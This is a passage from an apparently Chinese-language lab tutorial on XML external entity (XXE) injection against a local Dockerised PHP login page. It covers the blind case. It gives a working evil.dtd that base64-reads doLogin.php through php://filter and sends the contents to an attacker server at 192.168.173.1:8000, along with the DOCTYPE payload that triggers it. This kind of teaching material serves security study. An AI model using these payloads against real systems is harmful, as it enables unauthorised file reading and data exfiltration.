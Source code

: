 ![image-20240226164154778](10.xml%E6%B3%A8%E5%85%A5xxe/image-20240226164154778.png)

#### 无回显

修改源码，禁掉输出代码和报错信息，改成无回显。

```bash
docker exec -it xxe bash
sed -i 's#echo $result;# #' /app/public/doLogin.php
exit
```

这个时候可以看到之前的payload就没有效果了。
遇到无回显，可以通过Blind XXE方法加上外带数据通道来提取数据，先使用php://filter协议获取目标文件的内容，然后将内容以http请求发送到攻击服务器来读取数据。虽无法直接查看文件内容，但我们可以使用易受攻击的服务器作为代理，在外部网络上执行扫描以及代码。即，当无回显情况时，可以将数据发送到远程服务器(攻击服务器)。
本地部署一个evil.dtd文件： http://192.168.173.1:8081/evil.dtd ，内容为

```xml
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=doLogin.php">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.173.1:8000?p=%file;'>">
```

然后加载我们的payload

```xml
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.173.1:8000/evil.dtd">
%remote;%int;%send;
]>
```
